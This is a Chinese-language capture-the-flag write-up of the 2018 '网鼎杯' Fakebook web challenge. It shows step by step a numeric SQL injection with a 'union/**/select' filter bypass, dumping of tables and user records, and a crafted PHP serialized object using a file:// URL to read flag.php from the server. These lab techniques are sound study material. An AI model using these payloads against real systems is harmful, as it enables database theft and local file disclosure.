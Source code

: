 # [网鼎杯 2018]Fakebook 1

- 进入网页，注册账号并登录，url栏出现GET传参，可能存在sql注入点

> <img src="../../IMG3/Screenshot 2024-06-11 190155.png">

- 经测试，存在数值型注入，字段数为4

`?no=1 order by 4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190310.png">

- 在判断回显点时提示 `no hack ~_~`

`?no=0 union select 1,2,3,4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190407.png">

- 经测试，题目将 `union select` 进行了过滤，过滤的方法是检查union后第二个字符是否为 `s` ，因此不能使用括号绕过，使用 `union/**/select` 绕过

`?no=0 union/**/select 1,2,3,4#`

> <img src="../../IMG3/Screenshot 2024-06-11 190740.png">

- 确认回显点为2，爆表

`?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#`

> <img src="../../IMG3/Screenshot 2024-06-11 191135.png">

- 爆字段

`?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database() and table_name='users'#`

> <img src="../../IMG3/Screenshot 2024-06-11 191344.png">

- 爆内容

`?no=0 union/**/select 1,group_concat(no,'~',username,'~',passwd,'~',data),3,4 from users where no=1#`

> <img src="../../IMG3/Screenshot 2024-06-11 192335.png">

- 可以看到一串序列化字符串 `O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:5:"a.com";}` ，字符串的内容刚好是我们新建的账户a中的内容。题目到这里似乎陷入了僵局。扫目录，发现了 `flag.php`

> <img src="../../IMG3/Screenshot 2024-06-13 201941.png">

- `flag.php` ，和 `view.php` 在同一目录下，刚才sql注入时暴露了 `view.php` 的绝对路径，也就是说可能存在某个注入，让我们可以访问 `flag.php` 中的内容，查看网页源码，在blog一行发现了可疑之处

> <img src="../../IMG3/Screenshot 2024-06-11 202114.png">

- 这里我把blog设置为了 `http://www.baidu.com` ，对内容解码后得到的即是百度首页的源码，因此可知后台会对blog一行内容发送请求，并返回响应给前端，我们可以利用此处对 `flag.php` 发送请求。回想到在sql注入时，blog的内容刚好是序列化字符串，我们使用 `file://` 伪协议，构造攻击字符串

`O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

- 得到payload如下，网页获取到 `1` ，对 `1` 进行查询得到 `2,3,4` ， `2,3` 直接返回到前端，而 `4` 是在创建用户时生成的序列化字符串，后台在对 `4` 进行反序列化后返回到前端。这里我们便是用我们自己的查询语句覆盖后台的查询语句，来达到访问 `flag.php` 的目的

`?no=0 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#`

> <img src="../../IMG3/Screenshot 2024-06-11 202836.png">

- 可以看到blog一行已经修改成功，查看源代码，访问 `data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tiNjhmZWZiMS0wM2QzLTQ4YTItODBlNi02ODI3Mzg3YzY0NTF9IjsNCmV4aXQoMCk7DQo=` 得到flag

> <img src="../../IMG3/Screenshot 2024-06-11 203201.png">